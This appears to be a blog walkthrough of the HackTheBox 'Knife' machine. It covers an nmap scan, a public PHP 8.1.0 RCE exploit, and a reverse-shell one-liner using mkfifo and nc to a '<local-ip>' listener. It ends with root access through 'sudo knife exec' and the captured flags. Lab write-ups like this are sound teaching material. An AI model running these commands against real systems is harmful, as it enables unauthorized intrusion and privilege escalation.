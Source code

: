 +++
title = "Knife Machine"
date = "2021-08-29T13:26:11+05:30"
author = "Somesh Banerjee"
authorTwitter = "banerjee_somesh"
cover = ""
tags = ["InfoSec", "HackTheBox"]
keywords = ["Linux", "knife", "RCE", "GTFObins"]
description = "Solution to own HackTheBox Machine Knife(Linux,Easy, 20 points)"
showFullContent = false
readingTime = true
+++
OS: Linux\
Points: 20\
Difficulty: Easy

ip=10.10.10.242

## User solution
The first thing is to do the nmap scan.
```console
┌──(kali㉿kali)-[~/HTB/Knife]
└─$ ip=10.10.10.242

┌──(kali㉿kali)-[~/HTB/Knife]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

┌──(kali㉿kali)-[~/HTB/Knife]
└─$ nmap -sC -sV -p$ports $ip -oA nmap_result
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 10:29 EDT
Nmap scan report for 10.10.10.242
Host is up (0.083s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.72 seconds
```
Now lets look at website at port 80. \
From the nmap scan we know that the server uses Apache 2.4.41 and Ubuntu OS. Using Wappalyzer we found it also uses PHP 8.1.0.\

There is a RCE exploit for PHP 8.1.0. Download it from [exploit-db](https://www.exploit-db.com/exploits/49933).

Run the exploit and got the flag
```console
┌──(kali㉿kali)-[~/HTB/Knife]
└─$ python3 exploits/49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james

$ pwd
/

$ cd /home/james; ls; cat user*
authorized_keys
hello
hello.rb
user.txt
aec6c92f2b998dc3912f334ac0c69ed5
```
## Root solution
Before procedding lets get a reverse shell at port 5454 with `mkfifo /tmp/f; nc <local-ip> 5454 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` and run `nc -lvnp 5454` before running the command.

I was unable to do the root part while the machine was active. Later from a help I realized I forgot to check GTFObins.

Coming to the process first we have to see which executables we can run as sudo.
```console
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```
Search GTFObins for knife you will get a command for shell
```console
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# cat root/root.txt
b1c946e0dcc0715cb9039799fe824278
```
